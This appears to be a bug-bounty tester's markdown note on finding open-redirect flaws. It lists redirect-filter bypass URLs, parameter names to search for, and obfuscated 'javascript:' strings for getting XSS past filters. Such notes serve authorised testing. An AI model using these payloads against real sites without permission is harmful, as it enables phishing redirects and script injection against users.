 
%%
Tags: #web #attack #methodology #open #url #redirect #vulnerability 
See also: 
Index: [[]] - index location 

This is a commented section - wont see in the final render but can add useful info to map and search information
Add Additional Params that can help retrieve/ consolidate information
%%

- One of the easiest bugs to find.
- May use filters to prevent redirect
- Some bypasses are listed below

```
\/yoururl.com
\/\/yoururl.com
\\yoururl.com
//yoururl.com
//theirsite@yoursite.com
/\/yoursite.com
https://yoursite.com%3F.theirsite.com/ https://yoursite.com%2523.theirsite.com/
https://yoursite?c=.theirsite.com/ (use # \ also) //%2F/yoursite.com
////yoursite.com 
https://theirsite.computer/
https://theirsite.com.mysite.com
/%0D/yoursite.com (Also try %09, %00, %0a, %07) /%2F/yoururl.com
/%5Cyoururl.com
//google%E3%80%82com
```

- Search (dork for) for  words in url (both upper and lower case) to find potential candidates for vulnerability
```
return, return_url, rUrl, cancelUrl, url, redirect, follow, goto, returnTo, returnUrl, r_url, history, goback, redirectTo, redirectUrl, redirUrl
```

- [[Oauth]] pages can be vulnerable to open redirects
- One common problem is not encoding values correctly
-  Always encode certain values such as & ? # / \ to force the browser to decode it after the first redirect
- If there are multiple redirects do multiple encoding
- Open redirects used for chaining an [[SSRF]] vulnerability.
- If the redirect you discover is via the “Location:” header then XSS will not be possible, however if it redirected via something like “window.location” then you should test for “javascript:” instead of redirecting to your website an XSS will be possible here. 
- - Some common ways to bypass filters:
```
java%0d%0ascript%0d%0a:alert(0) j%0d%0aava%0d%0aas%0d%0acrip%0d%0at%0d%0a:confirm`0` java%07script:prompt`0`
java%09scrip%07t:prompt`0` jjavascriptajavascriptvjavascriptajavascriptsjavascriptcjavascriptrjavascriptijavascript 
pjavascriptt:confirm`0`
```
